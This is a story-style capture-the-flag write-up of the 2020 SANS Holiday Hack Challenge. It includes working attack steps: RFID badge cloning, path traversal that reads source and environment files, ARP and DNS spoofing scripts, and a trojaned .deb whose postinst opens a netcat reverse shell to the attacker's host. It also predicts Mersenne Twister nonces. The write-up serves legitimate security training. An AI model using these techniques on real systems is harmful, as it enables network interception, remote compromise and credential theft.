  
\includegraphics[scale=0.5]{santavator-2}
  \caption{Power to red and green line.}
\end{figure}

\section{Workshop}
Our heroes decided to go to the workshop and explore further.
In the Wrapping room, they found a \textit{large marble}.

\subsection{Sort O Matic}
{\color{codegreen}Minty Candycane} asked for help with some regular expressions. Grinch remembered the time he managed to pwn a whole company because their regex was dreadful so he decided to give it a try.
\begin{itemize}
  \item Matches at least one digit: \textit{\textbackslash d}
  \item Match three a-z ignoring case: \textit{[A-Za-z]\{3\}}
  \item Match 2 lowercase chars or digits: \textit{[a-z0-9]{2}}
  \item Match any 2 char but not A-L 1-5: \textit{[\^{}A-L1-5]\{2\}}
  \item Match 3 or more digits only: \textit{[0-9]\{3,\}\$}
  \item Match multiple HH:MM:SS: \textit{\^{}([0-5]\d):([0-5]\d):([0-5]\d)\$}
  \item Match MAC Address: \textit{\^{}([0-9A-Fa-f]\{2\}[:])\{5\}([0-9A-Fa-f]\{2\})\$}
  \item Match multiple day month year formats : \begin{Verbatim}[fontsize=\small,frame=single]
^(0?[1-9]|[12]\d|30|31)[/\.-](0[1-9]|1[0-2])[/\.-](\d{4}|\d{2})$
\end{Verbatim}
\end{itemize}

And this wraps up Sort-O-Matic. The elf is giving us some hints about the Splunk challenge.

On the next room, there's a challenge that, again, our heroes are not allowed to touch. Also, \textit{proxmark} and \textit{rubber ball} are in this room.

\subsection{Unlocking HID door}
We have already seen that there is a locked door next to {\color{codegreen}Minty Candycane} and based on the objective, we need to find a valid RFID tag. We already know from {\color{codegreen}Fitzy Shortstack} that {\color{codegreen}Shinny Uppatree} is trusted. Let's get close to him and scan his badge (he's located in the castle approach area).
An alternative approach is to scan two random badges and then bruteforce the ending bytes until we are in.

Anyway, Grinch decided to scan that specific elf, so...

\begin{minted}{bash}
[magicdust] pm3 --> lf hid read

#db# TAG ID: 2006e22f13 (6025) - Format Len: 26 bit - FC: 113 - Card: 6025
\end{minted}

Now that we have his badge, our heroes headed back to the Workshop.
\begin{minted}{bash}
[magicdust] pm3 --> lf hid sim -r 2006e22f13
\end{minted}

Our heroes opened that locked door.

    \newpage

    \chapter{Objective 6}

Our heroes enter the dark room.

- IS THIS SOME KIND OF JOKE?

No, it isn't Grinch. Grinch headed to the bottom and became Santa.

- OMG, I need to find Cindy Lou and tell her. Cindy, I'm not Santa, I'm the Grinch. Someone used the portrait to become Santa. We need to get to the bottom of this.

The Santa-Grinch headed to solve the Splunk challenge.

\subsection{Splunk}
\begin{itemize}
\item If we run \begin{minted}{bash}
index=*
| stats values(Technique)
\end{minted}
we get back 14 results. Two are actually the same technique so the correct answer is 13.
\item Based on the way the elf solved it
\begin{minted}{bash}
| tstats count where index=* by index
| search index=T*-win OR T*-main
| rex field=index "(?<technique>t\d+)[\.\-].0*"
| stats dc(technique)
\end{minted}
we can deduce that the two indices we are looking for are T1059.003-main T1059.003-win. We can even verify that by setting them as indices for a search.
\item If we search that \href{https://github.com/redcanaryco/atomic-red-team/}{repo} for MachineGUID we'll find \href{https://github.com/redcanaryco/atomic-red-team/blob/7ebf7536b886637d85388c93f34401d493cf4087/atomics/T1082/T1082.md#atomic-test-8---windows-machineguid-discovery}{this} which has the answer.
The correct answer is
\begin{minted}{bash}
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography.
\end{minted}
\item Again, we need to search that repo for OSTAP. If we run \begin{minted}{bash}
index=attack technique_name="*OSTAP*"
\end{minted}
the oldest result was run in 2020-11-30T17:44:15Z.
\item Searching the Atomic Red Team Repo yields no result. Instead if we google, we land on this \href{https://github.com/frgnca}{Github Profile}. This \href{https://github.com/frgnca/AudioDeviceCmdlets}{repo} has cdhunt as a contributor and he's a contributor to Atomic Red Team. CDHunt has WindowsAudioDevice as a repo in his Github profile. This should be the package we are looking for.
Searching the repo, we can find all atomic tests that rely on this package. The only attack that seems to use this is T1123. Based on that, we can modify our Query like
\begin{minted}{bash}
index=T1123-win
| CommandLine="*powershell.exe -Command WindowsAudioDevice-Powershell-Cmdlet*"
\end{minted}
and we get back one result. The Process ID is 3648.
\item Again, we need to search the repo. If we search for .bat, remember it said it was used  by multiple files, we get back a link to https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat . The last command is quser.
\item We already know that all T*-win indices contain Windows Event logs and all T*-main contain Bro logs. First, we need to find the DC. We need that machines are in the "attackrange.local" subdomain. Also, DCs, usually, contain the name "DC" in their Domain name. If we search for \begin{minted}{bash}
index=T*-win host="*dc*"
\end{minted}
we can see that the domain controller is named "win-dc-748.attackrange.local". Based on the above, \begin{minted}{bash}
index=T*-main certificate.subject="*win-dc-748.attackrange.local*"
\end{minted}
The SN is 55FCEEBB21270D9249E86F4B9DC7AA60/
\item The last one is to decrypt 7FXjP1lyfKbyDK/MChyf36h7. Per the RFC that Alice is mentioning, it is using RC4. We can also get the key from the Splunk talk. The key is Stay Frosty and the decrypted result is The Lollipop Guild
\end{itemize}

    \newpage

    \chapter{Objective 7}
Given that Grinch was Santa, Cindy Lou already headed to the roof. There she found the \textit{yellow bulb}.

\section{Netwars Challenges}
Cindy Lou decided to go ahead and solve all challenges in the roof, because she was craving for some hints.

\subsection{CAN-Bus Investigation}
Cindy Lou rushed towards {\color{codegreen}Wunorse Openslae}. Grinch was actually working with cars so he was fairly familiar with CAN but Cindy had no idea.
To balance that lack of knowledge, she decided to filter out every event that occurred multiple times. It was the natural thing to do, given that unlock must have occured only once.
\begin{minted}{bash}
elf@8a08020f4433:~$ cat candump.log | grep -v 244 | grep -v 188
(1608926664.626448) vcan0 19B#000000000000
(1608926671.122520) vcan0 19B#00000F000000
(1608926674.092148) vcan0 19B#000000000000
elf@8a08020f4433:~$ ./runtoanswer
There are two LOCK codes and one UNLOCK code in the log.  What is the decimal portion of the UNLOCK timestamp?
(e.g., if the timestamp of the UNLOCK were 1608926672.391456, you would enter 391456.
> 122520
Your answer: 122520

Checking....
Your answer is correct!

elf@8a08020f4433:~$
\end{minted}

The elf asked Cindy for help. Turns out there's something strange with the brakes and something going on with the doors with Santa's sleight. Again, she wasn't allowed to help, but this time our heroes knew about the portrait.

\subsection{Scappy Prepper}
{\color{codegreen}Alabaster Snowball} is holding some Scapy workshop. While waiting for Grinch, she decided to give it a try.

\begin{minted}{python}
>>> task.get()
<snip>
>>> task.submit('start')
<snip>
>>> task.submit(sniff)
<snip>
>>> task.submit(1)
<snip>
>>> task.submit(rdpcap)
<snip>
>>> task.submit(2)
<snip>
>>> task.submit(UDP_PACKETS[0])
<snip>
>>> task.submit(TCP_PACKETS[1][TCP])
<snip>
>>> task.submit(UDP_PACKETS[0])
<snip>
>>> for packet in TCP_PACKETS:
...     print (packet[TCP])
<snip>
PASS echo\r\n'
<snip>
>>> task.submit('echo')
<snip>
>>> task.submit(ICMP_PACKETS[1][ICMP].chksum)
<snip>
>>> task.submit(3)
<snip>
>>> pkt = IP(dst="127.127.127.127")/UDP(dport=5000)
>>> task.submit(pkt)
<snip>
>>> task.submit(pkt)
<snip>
>>> ARP_PACKETS[0]
<Ether  dst=ff:ff:ff:ff:ff:ff src=00:16:ce:6e:8b:24 type=ARP
|<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=who-has
hwsrc=00:16:ce:6e:8b:24 psrc=192.168.0.114 hwdst=00:00:00:00:00:00 pdst=192.168.0.1 |>>

>>> ARP_PACKETS[1]
<Ether  dst=00:16:ce:6e:8b:24 src=00:13:46:0b:22:ba type=ARP
|<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=RARP-rep
hwsrc=ff:ff:ff:ff:ff:ff psrc=192.168.0.1 hwdst=ff:ff:ff:ff:ff:ff pdst=192.168.0.114
|<Padding  load='\xc0\xa8\x00r' |>>>

>>> ARP_PACKETS[1][ARP].hwsrc='00:13:46:0b:22:ba'

>>> ARP_PACKETS[1][ARP].hwdst='00:16:ce:6e:8b:24'

>>> ARP_PACKETS[1].op=0x2
>>> task.submit(ARP_PACKETS)
Great, you prepared all the present packets!

\end{minted}

\subsection{On a more serious note}
For whatever reason, people underestimate the power of Scapy. Scapy is extremely flexible. Things you can do with Scapy don't include simply juggling with packets. One could even build sensors off of scapy and deploy them across their network to sniff stuff.
Apparently, mirroring traffic is rare those days. Anyway, you can literally do tons with Scapy. It's worth the time.

\section {Solving CAN-D issues}
This time, Cindy Lou became Santa, since she was already hanging around in the rooftop and held the hints given by the elves.

She connected to the debugging status to see, but again it was a mess. Things were randomly flying through her screen. She fell back to her trusted tactic. Filter out all noise.
Per her description, she started the engine and then blocked everything but ID 80. Then she messed with the brakes. Putting them on 5 she noticed that 080 was acting a bit strange. She took a note.
Looking closer, she figured it out.
The brakes were sending a random command.
She should exclude everything from \textbf{ID 080 that contains FFFF}
She went on to focus with the door lock/unlock issue. Following the samme approach, she noticed that the responsible ID was 19B.
It would normally lock and unlock but at times it would send a command containing 0F2057.
She excluded everything from \textbf{ID 19B that contains 0F2057}.

And she got the objective.

    \newpage

    \chapter{Objective 8}
Grinch had already eyeballed that machine and knew about boundaries. So this time, he pretended to be Santa. He also had some pictures lying around.

\subsection{Solving the problem}
Grinch initially tried to figure out what's going on with the site. You know, normal stuff.
He uploaded some pics and noticed that he could visit them in the APP/image?id= path. He remembered that hint from the elf about the source code.
He jumped in his favourite terminal.
\begin{minted}{bash}
$ curl https://tag-generator.kringlecastle.com/RandomPathNotExisting # Force error
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
$ # We know where the source is located.
$ curl https://tag-generator.kringlecastle.com/image?id=../../../app/lib/app.rb
# encoding: ASCII-8BIT

TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

<snip>

$ # We have the source code.
\end{minted}

Grinch was laughing that he had the source code. Per the source, one could upload zip, png, and jpg images.
Also, there was a code execution vulnerability in the file name. Grinch was experienced enough to test first whether he could
fetch the env variable in some other way. Maybe, the env variable was exposed in the app.

\begin{minted}{bash}
$ curl https://tag-generator.kringlecastle.com/image?id=../../../proc/self/environ --output -
<snip>
GREETZ=JackFrostWasHere
<snip>
\end{minted}

Sure enough, the variable was accessible.

    \newpage

    \chapter{Objective 9 - How To}
Based on the objective description and a quick \textit{tcpdump},
our heroes need to:
\begin{itemize}
\item Poison ARP. When this is done, another network monitoring will reveal that we need to respond to some DNS request.
\item Respond to DNS. When this is done, yet another network monitoring will reveal that the victim tries to get access to some debs.
\item Manufacture DEB so that we get reverse shell.
\item Set up listener for our reverse shell.
\end{itemize}

Based on the above, the first script we need to modify is the ARP\footnote{Please note, those scripts only respond to the first request and exit.}
\begin{minted}{python}
v_macaddr = packet[ARP].hwsrc
v_ipaddr = packet[ARP].psrc

ether_resp = Ether(dst=v_macaddr, type=0x806, src=macaddr)

arp_response = ARP(pdst=v_ipaddr)
arp_response.op = 0x2 # Response
arp_response.plen = 0x4
arp_response.hwlen = 6
arp_response.ptype = 0x800
arp_response.hwtype = 0x1

arp_response.hwsrc = macaddr # Our MAC
arp_response.psrc = "10.6.6.53" # Our IP, or at least the one he wants to talk to.
arp_response.hwdst = v_macaddr # Victim MAC
arp_response.pdst = v_ipaddr # Victim IP

\end{minted}
Your DNS script should be modified like
\begin{minted}{python}
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=macaddr, dst="4c:24:57:ab:ed:84")   # need to replace mac addresses
    ip  = IP(dst="10.6.6.35", src=ipaddr_we_arp_spoofed)                          # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=53)                             # need to replace ports
    dns = DNS(
        id=packet[DNS].id,
        qd=packet[DNS].qd,
        aa = 1,
        qr=1,
        an=DNSRR(rrname=packet[DNS].qd.qname,  ttl=10, rdata=ipaddr)
    )
    dns_response = eth / ip / udp / dns
\end{minted}

We already know because we tcpdump'd that there's a request coming on port 80.
\begin{minted}{bash}
guest@bdde251c6a87:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [27/Dec/2020 19:35:00] code 404, message File not found
10.6.6.35 - - [27/Dec/2020 19:35:00] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
\end{minted}

We need to put together a .deb file that will trigger us some sort of vuln\footnote{\href{https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/}{Here} is a more descriptive way}.
\begin{minted}{bash}
guest@bdde251c6a87:~/debs$ dpkg -x unzip_6.0-25ubuntu1_amd64.deb work
guest@bdde251c6a87:~/debs$ mkdir work/DEBIAN
guest@bdde251c6a87:~/debs$ cat work/DEBIAN/control
Package: suriv
Version: 6.0
Section: Pwnage
Priority: optional
Architecture: amd64
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based pwnage
 Grinch and Cindy Lou love you. Now they'll fix your server
 guest@bdde251c6a87:~/debs$ cat work/DEBIAN/postinst
 #!/bin/bash
 # Note that the IP is what's in his cache.
 /usr/bin/netcat 10.6.6.53 1234 -e /bin/bash
 guest@bdde251c6a87:~/debs$ chmod +x work/DEBIAN/postinst
 guest@bdde251c6a87:~/debs$ dpkg-deb --build work/
 guest@bdde251c6a87:~/debs$ mkdir -p pub/jfrost/backdoor/
 guest@bdde251c6a87:~/debs$ mv work.deb pub/jfrost/backdoor/suriv_amd64.deb
\end{minted}

Alright, time to get a shell. We need to fire our two scripts, the server and have a listening backdoor.

\begin{minted}{bash}
guest@53ee527cbffd:~/debs$ nc -nvlp 1234 &
guest@53ee527cbffd:~/debs$ python3 -m http.server 80 &
guest@53ee527cbffd:~/debs$ python3 ../scripts/dns_resp.py &
guest@53ee527cbffd:~/debs$ python3 ../scripts/arp_resp.py
.
Sent 1 packets.
.
Sent 1 packets.
10.6.6.35 - - [27/Dec/2020 20:17:01] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 200 -
guest@53ee527cbffd:~/debs$ connect to [10.6.0.2] from (UNKNOWN) [10.6.6.35] 54298
guest@53ee527cbffd:~/debs$ fg
nc -nvlp 1234
whoami
jfrost
cat /N*.txt
\end{minted}
Tanta Kringle was the answer. As a bonus, you can actually transfer the file to host. 

    \newpage

    \chapter{Objective 10}

Grinch tampered a bit with the Santavator to light all bulbs. He was missing some items. After wandering around for a bit, he decided to talk to the vending machine located in the Talks Area, Speaker Unpreparedness Room.
Suddenly, the machine spit back some portals. Quite happy for his achievement, he arranged the pieces to light all lines in the Santavator.
\begin{figure}[h!]
  
\includegraphics[scale=0.4]{santavator-last}
  \caption{Power to red, green and yellow line.}
\end{figure}

Quickly looking through the source code, it occured to him. The fastest path was to simply edit the frame's url and include "besanta" in the tokens.
\begin{figure}[h!]
  
\includegraphics[scale=0.4]{besanta}
  \caption{Power to red, green and yellow line.}
\end{figure}

He beat the fingerprint. One could only laugh. Cindy Lou insisted that there should be another path to solve it, by using the developer tools in her browser but he wouldn't listen.

    \newpage

    \chapter{Objective 11a}

Grinch was swiftly booted out of Santa's office, so he returned back as Santa.
{\color{codegreen}Tinsel Upatree} mentioned briefly that Jack Frost has probably changed his score.
Grinch laughed, after all, they already had all the hints from solving that snowball machine thing.
This couldn't be harder. His approach would be the same. Get all nonces, feed them into his generator until they become synced and spit the next number.
He decided to verify the blockchain and print the nonces.

\begin{minted}{python}
with open('official_public.pem', 'rb') as fh:
        official_public_key = RSA.importKey(fh.read())
        c2 = Chain(load=True, filename='blockchain.dat')
        print('C2: Block chain verify: %s' % (c2.verify_chain(official_public_key, previous_hash='c6e2e6ecb785e7132c8003ab5aaba88d')))
        for block in c2.blocks:
            print (block.nonce)
\end{minted}

Now that he had the nonces, it was time to solve the mystery.

\begin{minted}{bash}
$ pip install mersenne-twister-predictor
$ cat solution.py
import random

from mt19937predictor import MT19937Predictor

predictor = MT19937Predictor()
nonces = [
# THE NONCES HE DUMPED BEFORE
]

for i in range(624):
    predictor.setrandbits(nonces[i], 64)

while True:
    r2 = predictor.getrandbits(64)
    if r2 in nonces:
        print ("Value %d found in %d" % (r2, nonces.index(r2)))
    else:
        print("Break")
        break;

for i in range(5):
    print(hex(predictor.getrandbits(64)))
$ python solution.py
<snip>
\end{minted}

The answer was 57066318f32f729d. Grinch smiled.

    \newpage

    \chapter{The end}

Grinch smiled. He had an idea of the things Jack Frost changed.
\begin{itemize}
\item He changed his score.
\item He changed his naughty rating into nice.
\item He changed the attached PDF.
\end{itemize}

He was already aware of the attack Jack Frost had done (Unicoll), which could be deduced by the fact that he changed 4 bytes.
The question was which 4 bytes.
First, he dumped all files in Jack's block. He had the source code so he knew that the Block class has an attribute to keep count of the docs.
\begin{minted}{python}
if __name__ == '__main__':
    with open('official_public.pem', 'rb') as fh:
        official_public_key = RSA.importKey(fh.read())
        c2 = Chain(load=True, filename='blockchain.dat')
        print('C2: Block chain verify: %s' % (c2.verify_chain(official_public_key, previous_hash='c6e2e6ecb785e7132c8003ab5aaba88d')))
        for block in c2.blocks:
            h = SHA256.new()
            h.update(block.block_data_signed())
            if h.hexdigest() == '58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f':
                for i in range(0, block.doc_count):
                    block.dump_doc(i)
\end{minted}

